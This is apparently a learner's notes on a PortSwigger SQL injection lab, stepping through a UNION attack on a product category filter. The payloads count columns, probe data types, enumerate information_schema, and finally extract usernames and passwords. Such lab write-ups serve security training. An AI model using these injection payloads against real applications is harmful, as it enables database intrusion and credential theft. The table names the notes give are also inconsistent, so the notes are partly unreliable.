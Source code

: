 This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

(1) Determine number of columns
' ORDER BY 1--
' ORDER BY 2--

'UNION SELECT NULL, NULL--

(2) types of data
we can see from
'UNION SELECT 'a', 'b'--
that it holds text

(3) get table name
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--

(4) get column name
https://ac8e1f961f8c2dedc08c010a00b80036.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name=%27users_qlvwvo%27--

Column: username_pmppme
Password Column:
password_tkgaxy
'+UNION+SELECT+username_pmppme,+password_tkgaxy+FROM+users_tkgaxy--

(5) Get password 
'+UNION+SELECT+username_pmppme,+password_tkgaxy+FROM+users_tkgaxy--